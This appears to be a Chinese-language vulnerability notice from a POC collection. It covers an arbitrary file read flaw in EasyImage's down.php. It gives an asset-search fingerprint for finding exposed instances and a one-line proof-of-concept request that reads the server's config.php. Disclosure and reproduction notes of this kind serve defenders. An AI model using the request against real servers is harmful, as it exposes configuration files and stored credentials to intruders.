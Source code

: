 # EasyImage down.php 任意文件读取漏洞

# EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
EasyImage
```

## 网络测绘

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094057151](images/image-20230417094057151.png)

验证POC

```
/application/down.php?dw=./config/config.php
```

![image-20230417094115549](images/image-20230417094115549.png)

